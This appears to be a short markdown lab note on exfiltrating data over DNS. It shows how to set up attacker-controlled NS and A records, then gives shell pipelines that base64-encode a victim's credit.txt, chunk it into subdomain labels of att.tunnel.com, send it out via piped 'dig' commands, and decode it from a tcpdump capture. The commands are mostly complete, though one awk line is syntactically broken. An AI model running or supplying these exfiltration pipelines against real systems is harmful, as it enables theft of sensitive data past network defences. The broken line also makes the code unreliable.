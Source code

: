 # DNS Exfil

## Requirements: Control a domain and set up DNS Records (NS,A,TXT,etc)

### 1) Add an A record that points to attacker IP (Type:A, Subdomain Name:tlns, Value:ATTACKER_IP)

### 2) Add an NS record that routes DNS queries to the A records in step 1 (Type:NS, Subdomain name:tl, Value:tlns.example.com)

## Manual Exfil

### 1) Get the required data that needs to be transferred

### 2) Encode the file using one of the encoding techniques

### 3) Send the encoded characters as subdomains/labels

### 4) Consider the limitations of the DNS protocol.

### Note that we can add as much data as we can to the domain name, but we must keep the whole URL under 255 characters and each subdomain label CAN'T exceed 63 characters.

### If we do exceed these limits, we split the data and send more DNS requests!

### Example:

#### 1) Jumpbox: 

    ssh USER@DOMAIN or Attacker: ssh USER@VICTIM_IP -p 2322 (example)

#### 2) Attacker: 

    sudo tcpdump -i eth0 udp port 53 -v 

#### 3) Jumpbox: 

    ssh USER@VICTIM2_DOMAIN or Attacker: ssh USER@VICRIM_IP -p 2122 (example)

#### 4) Victim2: 

    credit.txt

#### 5) 

    cat credit.txt | base64

#### 6) 

    cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed -r 's/.*/&.att.tunnel.com/' (Multiple DNS requests)

#### 7) 

    cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ (Single DNS requests)

#### 8) 

    cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $13' | bash (Send base64 data as subdomain)

#### 9) Attacker: 

    echo "BASE64_DATA" | cut -d "." -f1-8 | tr -d "." | base64 -d
